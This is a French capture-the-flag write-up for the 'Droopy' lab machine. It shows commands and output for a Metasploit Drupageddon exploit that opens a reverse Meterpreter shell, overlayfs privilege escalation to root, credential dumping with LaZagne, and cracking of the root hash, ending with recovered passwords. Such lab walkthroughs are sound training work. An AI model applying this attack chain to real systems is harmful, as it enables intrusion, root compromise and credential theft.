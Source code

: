 # DroopyCTF

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.196
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.196...100%
[+] Scan Nmap 192.168.56.196...100%
 
[+] 80/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/m0rph3u5/Massap/192.168.56.196-tcp.html     |
==========================================================
```

&nbsp;

**Rapport Nmap**

![Capture du 2025-04-16 13-19-43](https://github.com/user-attachments/assets/8afe7517-8e8c-48fb-b43d-000d0371ffc5)

&nbsp;

<span style="color: #dddddd;">💥</span> **Metasploit - drupal_drupageddon** 

Exploitation de la `CVE` trouver par `nmap` ( cve-2014-3704)

```
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set lhost 192.168.56.149
lhost => 192.168.56.149
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set rhosts 192.168.56.196
rhosts => 192.168.56.196
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> run
[*] Started reverse TCP handler on 192.168.56.149:4444 
[*] Sending stage (40004 bytes) to 192.168.56.196
[*] Meterpreter session 1 opened (192.168.56.149:4444 -> 192.168.56.196:55448) at 2025-04-16 19:05:25 +0200

(Meterpreter 1)(/var/www/html) >
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> LinPeas**

Élévation de privilege avec linpeas

```
www-data@droopy:/tmp$ ./linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚ 
[+] [CVE-2015-1328] overlayfs

   Details: http://seclists.org/oss-sec/2015/q2/717
   Exposure: highly probable
   Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
   Download URL: https://www.exploit-db.com/download/37292

```

&nbsp;

&nbsp;

**<span style="color: #dddddd;">💀</span> Exploit Overlays**

Test de l'exploit trouver precedement

```
www-data@droopy:/tmp$ gcc overlays.c   
gcc overlays.c
www-data@droopy:/tmp$ ./a.out
./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# bash -i
root@droopy:/tmp#
```

&nbsp;

<span style="color: #dddddd;">👾</span> **LaZagne**

Cherchons des mot de passe sur la machine

```
root@droopy:/tmp/LaZagne-2.4.6/Linux# python laZagne.py all
python laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Password found !!!
Login: gsuser
Password: gsuser

[+] Hash found !!!
Login: root
Hash: $6$fSUKb/ov$EFE6LjrVpz2yJrd2QSQEe/mGQ.8q3xXi9s5CJL95ngeh95PS91e10XLav4gRE1z4jv1Wmb6WH24yVQA6GKwEl/:16415:0:99999:7:::


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 1.15886497498
```

&nbsp;

**<span style="color: #dddddd;">🧨</span> JohnTheRipper**

Crack du mot de passe `root`

```
┌─[m0rph3u5@parrot]─[~]
└──╼ $john droop 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
toor             (root)     
1g 0:00:00:00 DONE 1/3 (2025-04-16 19:30) 16.66g/s 166.6p/s 166.6c/s 166.6C/s rootroot..RootRoot
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

&nbsp;

Identifiant trouver

| Users | Passwords |
| --- | --- |
| root | toor |
| gsuser | gsuser |
